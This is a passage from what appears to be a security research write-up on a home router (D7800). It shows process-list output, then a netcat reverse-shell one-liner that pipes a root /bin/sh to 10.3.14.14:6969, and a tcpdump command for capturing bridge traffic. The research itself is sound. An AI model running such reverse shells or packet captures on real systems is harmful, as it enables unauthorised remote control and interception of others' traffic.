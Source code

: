 ```
 3632 root        604 S   /usr/sbin/dbus-daemon --system 
 3770 root        992 S   avahi-daemon: running [D7800.local]             
 3799 root        480 S   /bin/sh /etc/rc.common /etc/init.d/run_afpd start 
 4212 root        892 S   /bin/sh /sbin/wlan up 
 4369 root        848 S   /bin/sh /sbin/wlan up 
 4376 root             /bin/sh /sbin/wlan up 
 4381 root        296 S   sleep 3 
 4429 root        308 S   update_afp 
 4434 root        404 R   ps w
```

## Spawning a reverse shell
Since we have access to a root shell, it will be possible to simply spawn a reverse shell via the command: 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.3.14.14 6969 >/tmp/f
```
Netcat is not used in the "classic" way, since the installed version is older. 

## Network traffic interception

To capture the network traffic, an interesting interface from the `ip a` command is `br0`. By launching `tcpdump` on that: 
```
tcpdump -c 10 -i br0 -o dump.pcap
```

It is possible to capture any packet transmitted among the physical ports. 

## Conclusions
The presence of an unprotected root shell enables performing various actions and further analysis. For instance, a firmware dump can be performed to analyze the content on a separate device. Future work could also include reversing the custom binary in execution in the router. 

